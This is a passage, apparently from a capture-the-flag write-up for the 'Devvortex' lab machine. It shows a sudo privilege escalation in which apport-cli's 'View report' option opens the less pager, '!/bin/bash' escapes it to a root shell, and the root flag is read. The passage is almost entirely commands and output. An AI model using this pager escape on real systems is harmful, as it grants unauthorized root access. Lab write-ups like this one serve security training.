 ```bash
                        multiple times.
  -v, --version         Print the Apport version number.

# Choosing "V" to get into a less terminal
ogan@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia$ sudo /usr/bin/apport-cli -f -p apport

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
........................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (5.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

# Once in the less terminal I tye
!/bin/bash

# And pop out into a shell as root
root@devvortex:/var/www/dev.devvortex.htb/templates/cassiopeia# cat /root/root.txt
babc3e--------------------------
```